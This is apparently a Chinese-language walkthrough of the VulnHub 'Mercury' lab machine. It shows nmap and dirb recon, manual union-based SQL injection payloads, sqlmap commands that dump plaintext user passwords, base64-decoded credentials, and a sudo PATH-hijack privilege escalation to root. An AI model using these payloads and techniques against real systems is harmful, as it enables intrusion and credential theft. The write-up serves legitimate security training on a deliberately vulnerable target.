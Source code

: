 ## 靶机信息
靶机地址:https://download.vulnhub.com/theplanets/Mercury.ova
级别:容易

- VMware17打开靶机会存在兼容性问题，更改硬件兼容性为VMware16.X即可
- IP扫描不到,按shift e修改ro 为 rw sgnie init=/bin/bash Ctrl+ x重启，修改网卡即可
-  lsb_release -a //查看发行版 vi /etc/netplan/00-installer-config.yaml 修改网卡名后重启靶机即可
## Recon
Nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.141

sudo nmap -sT --min-rate 10000 -p- 192.168.1.141
//Ports:
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

sudo nmap -sU --min-rate 10000 --top-ports 20 192.168.1.141 | grep open
69/udp    open|filtered tftp
```

## Web
![[Pasted image 20231007132737.png]]

## 目录爆破
```shell
dirb http://192.168.1.141:8080

---- Scanning URL: http://192.168.1.141:8080/ ----
+ http://192.168.1.141:8080/robots.txt (CODE:200|SIZE:26)
```
查看robots.txt文件
![[Pasted image 20231007133002.png]]
此时robtos.txt没有可以用信息，随便输入一个地址试着报错，报错回显了一个目录。

![[Pasted image 20231007134437.png]]

![[Pasted image 20231007134658.png]]
点击Load a fact
![[Pasted image 20231007134728.png]]
这里很可能存在SQL查询，尝试故意报错。
![[Pasted image 20231007134831.png]]
确实存在SQL注入.

## 手工SQL注入
![[Pasted image 20231007135317.png]]
报错页面中看到了执行的sql语句

```SQL
1 order by 2 -- ' //order by 2时报错。则列数为1
1 union select version() -- ' //Fact id: 1 union select version() -- '. (('Mercury does not have any moons or rings.',), ('8.0.21-0ubuntu0.20.04.4',)) 得到版本信息为:8.0.21-0ubuntu0.20.04.4

//database()
1 union select database() -- '
('mercury',))
//查看当前数据库所有表
1 union select table_name from information_schema.tables where table_schema="mercury" -- ' 
//('facts',), ('users',)

//查看user表字段名
1 union select column_name from information_schema.columns where table_schema="mercury" and table_name='users' -- '.
//('id',), ('password',), ('username',)

//查看username和password
1 union select username from users -- '
//('john',), ('laura',), ('sam',), ('webmaster',)
1 union select password from users -- '
//('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',)
```
## SqlMap

```shell
sqlmap -u http://192.168.1.141:8080/mercuryfacts/ --dbs --batch
[17:04:55] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[17:04:56] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

//得到两个数据库

//爆表
sqlmap -u http://192.168.1.141:8080/mercuryfacts/ -D mercury --tables --batch
//得到两个数据表
[2 tables]
+-------+
| facts |
| users |
+-------+

//爆字段
sqlmap -u http://192.168.1.141:8080/mercuryfacts/ -D mercury -T users --columns --batch
//
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+

//dump
sqlmap -u http://192.168.1.141:8080/mercuryfacts/ -D mercury -T users --dump --batch
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

## 提权

```shell
ssh webmaster@192.168.1.141 //只有webmaster用户可以ssh登录
```
home目录下得到user flag
```shell
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```
/home/webmaster/mercury_proj 目录下找到notes.txt
```shell
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```
base64解码，得到linuxmaster的密码
```shell
linuxmaster:mercurymeandiameteris4880km
```
登录linuxmaster账户
```shell
sudo -l
```
![[Pasted image 20231007174056.png]]
```shell
cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
//看到sudo执行tail命令

ln -s /bin/vi tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
//此时会打开vi,命令模式输出:shell即可
root flag:[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

	![[Pasted image 20231007174817.png]]